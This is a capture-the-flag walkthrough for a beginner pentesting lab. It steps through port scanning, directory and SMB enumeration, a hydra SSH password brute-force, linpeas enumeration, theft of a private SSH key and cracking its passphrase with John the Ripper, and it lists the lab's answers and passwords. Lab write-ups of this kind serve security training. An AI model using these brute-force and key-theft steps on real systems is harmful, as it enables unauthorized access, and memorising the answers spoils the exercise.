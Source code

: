# Basic Pentesting

### Find the services exposed by the machine

`nmap -sV -sC -A -oN initial.nmap <target-ip>`

Output: 
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### What is the name of the hidden directory on the web server?

`gobuster dir -u http://<target-ip> -w <wordlist>`

> development

Output: `j.txt`
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Output: `dev.txt`
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

### User brute-forcing to find the username & password

`enum4linux -a <target-ip`

We see that there is an **Anonymous** share.

`smbclient //<target-ip>/Anonymous`

Output: `staff.txt`
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

### What is the username?

> jan

### What is the password?

`hydra -l jan -P <rockyou.txt> <target-ip> ssh -V`

> armando

### What service do you use to access the server?

> SSH

### Enumerate the machine to find any vectors for privilege escalation

Download `linpeas.sh` into `/tmp/<folder>` with a `python` webserver, make it executable, and run it.

Interesting output:
```
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
```

Copy the `id_rsa` file into our attack computer. Make sure to set the right permissions! 

`chmod 600 kay_id_rsa`.

### What is the name of the other user you found?

> kay

### If you have found another user, what can you do with this information?

`ssh -i kay_id_rsa kay@<target_ip>` to log in as kay. It seems that this is protected by a passphrase! We will need to use John the Ripper to crack it.

```
ssh2john kay_id_rsa > kay_hash.txt
john --wordlist=<rockyou.txt> kay_hash.txt
```
The passphrase is `beeswax`. Now we can login.

### What is the final password you obtain?

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$